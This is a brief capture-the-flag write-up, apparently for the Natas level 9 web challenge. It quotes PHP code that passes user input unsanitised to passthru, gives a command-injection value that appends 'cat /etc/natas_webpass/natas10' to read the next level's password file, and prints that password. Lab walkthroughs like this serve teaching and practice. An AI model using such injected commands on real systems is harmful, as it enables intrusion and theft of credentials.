 # Level 9
First, clicking on view source shows some PHP code, of interest is:
<code>  
if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
</code>  
The passthru function in PHP does not perform input validation. I can take advantage of this by passing in *; cat /etc/natas_webpass/natas10 #*

I get the following password: <ins>nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu</ins>